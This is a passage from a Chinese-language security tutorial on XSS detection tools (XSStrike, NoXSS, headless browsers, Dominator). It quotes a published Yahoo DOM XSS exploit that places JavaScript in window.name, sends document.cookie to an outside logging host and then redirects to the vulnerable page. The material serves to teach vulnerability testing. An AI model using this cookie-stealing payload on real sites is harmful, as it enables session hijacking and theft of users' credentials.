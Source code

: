 以 AWVS 的在线靶场为例，它可以检测搜索框存在的 XSS 漏洞：

<Image alt="Drawing 7.png" src="https://s0.lgstatic.com/i/image/M00/8B/CC/CgqCHl_gO9mAdRs_AABsm8OWsbs654.png"/>  
图 8：XSStrike

XSStrike 功能比较全面，但也会存在误报，而且告警结果展示的体验不是很好。

因此，这里再推荐另一款工具，叫 [NoXSS](https://github.com/lwzSoviet/NoXss)。它的特点就是批量扫描速度快，而且告警展示效果比 XSStrike 好，但漏洞检测能力不如 XSStrike，你可以把这两款搭配着使用。NoXSS 的使用方法也很简单，常用命令如下：

```java
python start.py --url="http://localhost/vulnerabilities/XSS_r/?name=a"
```

<Image alt="Drawing 8.png" src="https://s0.lgstatic.com/i/image/M00/8B/C1/Ciqc1F_gO-SAWQl0AAbouv6er5w361.png"/>  
图 9：NoXSS

DOM XSS 的扫描相比常规 XSS 要难一些，主要是针对 JS 代码的分析，如果只是简单的正则匹配，就很容易误报漏报。所以针对 DOM XSS 的检测，除了常规的 XSS payload 暴力测试、正则匹配检测代码外，还可以基于以下几种常见方法来检测 XSS。

* Headless Chrome：利用无界面 Chrome 浏览器来检测 XSS，参考《[基于 Chrome-headless 的 XSS 检测](https://paper.seebug.org/641/)》，这是目前主流的动态检测方法。

* QtWebKit：参考《[基于 QtWebKit 的 DOM XSS 检测技术](https://security.tencent.com/index.php/blog/msg/12)》，QtWebKit 作者已停止维护。

* PhantomJS：已停止维护。它提供一套基于 WebKit 的服务器端 JavaScript API，可以在无浏览器支持的情况下实现 Web 浏览器功能的支持，例如 DOM 处理、JavaScript、CSS 选择器、JSON、Canvas 和可缩放矢量图形 SVG 等功能。

这些方法可以实现动态解析 JS，以验证特意构造的 XSS payload 是否被执行，从而准确地判断是否存在 XSS 漏洞。

这种动态检测 DOM XSS 的工具，个人特别推荐 Dominator。它是基于 Firefox 改造的，在一些关键的输入输出函数添加 Hook，如果发现有用户可控数据输出到一些 sink 漏洞触发函数上就会告警。它的特点是发现率高，虽然也有不少误报。此前我用它发现了不少国内知名网站的 DOM XSS，有些不同域名的网站引用到同一个漏洞 JS 文件，导致一个漏洞影响一大批网站。

以之前一些 Yahoo DOM XSS 为例，当你用 Dominator 访问了存在漏洞的页面后，可以看到其输出的告警内容如下：

<Image alt="Drawing 9.png" src="https://s0.lgstatic.com/i/image/M00/8B/CC/CgqCHl_gO_CARQ8zAARc2hmr8mY249.png"/>  
图 10：用 Dominator 检测 DOM XSS

提示 windows.name 输入数据被直接传递给 eval 函数，也就是说如果你能控制 windows.name 的值，就可以实现任意 JS 代码的执行。利用起来也非常简单，我们可以看下漏洞发现者 Abysssec 公司发布的利用代码：

```javascript
<html>
<script>
window.name=' new Image().src="http://abysssec.com/log/log.php?cookie="+encodeURI(document.cookie);
setTimeout(\"location.href = \'http:\/\/www.yahoo.com\';\",10);';
location.href="http://adspecs.yahoo.com/index.php";
</script>
</html>
```

利用思路就是直接设置 window.name 参数，插入打算执行的 JS 代码，然后用 location.href 跳转到漏洞页面去触发。这类漏洞我在网易的一些网站上也发现了不少，也是用 Dominator 挖掘到的，所以个人比较推荐。

#### 白盒测试
